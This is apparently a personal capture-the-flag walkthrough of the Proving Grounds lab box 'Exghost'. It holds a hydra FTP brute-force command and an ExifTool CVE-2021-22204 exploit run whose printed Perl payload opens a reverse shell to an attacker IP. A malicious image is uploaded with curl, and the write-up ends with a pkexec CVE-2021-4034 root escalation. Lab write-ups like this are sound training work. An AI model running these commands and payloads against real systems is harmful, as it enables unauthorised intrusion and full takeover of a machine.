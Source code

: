 # PG Practice: Exghost
https://medium.com/@vivek-kumar/offensive-security-proving-grounds-walk-through-exghost-2e9a969ef711

`export IP=192.168.70.183`

### All failed so go with Bruteforce
```
hydra -t 20 -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P password.txt -vV $IP ftp
```
I know ridiculous `user:system`

### ftp
```
❯ ftp $IP
Connected to 192.168.70.183.
220 (vsFTPd 3.0.3)
Name (192.168.70.183:alvin): user
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -alh
229 Entering Extended Passive Mode (|||43520|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0          126151 Jan 27  2022 backup
226 Directory send OK.
ftp> get backup
local: backup remote: backup
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for backup (126151 bytes).
100% |***********************************************************************************************************************************************|   123 KiB  126.06 KiB/s    00:00 ETA
226 Transfer complete.
126151 bytes received in 00:01 (105.24 KiB/s)
```

### wireshark to the packet capture
```
POST /exiftest.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------169621313238602050593908562572
Content-Length: 14806
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/
Upgrade-Insecure-Requests: 1

-----------------------------169621313238602050593908562572
Content-Disposition: form-data; name="myFile"; filename="testme.jpg"           // <- myFile as the entry
Content-Type: image/jpeg
```
opening it with Wireshark to enumerate further. Filtering the HTTP packets, we see that someone uploaded an image to ip/exiftest.php and the upload was successful. We also can see the version of ExifTool running on the box.

Under `line-based text data` of the 200 response. File uploaded successfully :)<pre>ExifTool Version Number         : 12.23\n

### Let's try to upload a file
```
echo 'wqer 1234' > test01.txt

curl -F 'myFile=@test01.txt' -k http://192.168.70.183/exiftest.php
File not allowed.
```

### Exploit the exiftool by gooling its version
https://www.exploit-db.com/exploits/50911

```
❯ python3 exploit.py -s 192.168.49.70 7890

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(7890,inet_aton('192.168.49.70')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
RUNTIME: DONE - Exploit image written to 'image.jpg'
```
```
curl -F 'myFile=@image.jpg' -k http://192.168.70.183/exiftest.php
```

### Got the user.txt
##### linpeas
```
Vulnerable to CVE-2021-4034 # https://github.com/topics/cve-2021-4034

Vulnerable to CVE-2021-3560 # Not working, tried CVE-2021-3560-Polkit-Privilege-Esclation
```

###
There is no compiler installed on the machine. I cloned a few of the available exploits but any C code compiled on my system doesn’t seem to work on the target machine. Finding a python exploit for the same. And it works giving us a root shell. Refer: https://github.com/joeammond/CVE-2021-4034

# Sum up
Try python script when above issues happened
https://github.com/topics/cve-2021-4034

I found this one instead. https://github.com/A1vinSmith/CVE-2021-4034
